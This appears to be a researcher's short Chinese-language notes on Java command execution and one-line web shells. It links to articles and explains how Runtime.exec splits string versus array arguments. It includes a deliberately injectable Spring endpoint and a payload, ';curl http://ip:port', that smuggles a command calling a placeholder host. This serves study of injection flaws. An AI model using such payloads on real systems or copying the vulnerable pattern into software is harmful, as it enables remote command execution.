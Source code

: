 # shell

偶然发现了一篇文章
>https://xz.aliyun.com/t/7798


+ [一种新型Java一句话木马的实现](https://xz.aliyun.com/t/9715)

## 命令执行的tips

https://www.anquanke.com/post/id/243329

https://xz.aliyun.com/t/7046

**其实说到底是java.lang.Runtime#exec(string)一个对命令进行了空格切分（导致切分不合本意），另一个string[]是自己去分离可以执行**

下面代码是可以执行的

/cmd?command=;curl http://ip:port

```java
@GetMapping(value = "/cmd")
public void cmd(@RequestParam String command) throws Exception {
    String[] c = { "/bin/bash","-c", "hacker "+ command };///bin/bash -c hacker;ls
    Process p = Runtime.getRuntime().exec(c);
}
```

下面是不能执行的
```java
Command = "ping 127.0.0.1"+request.getParameter("cmd");
Runtime.getRuntime().exec(command);
```
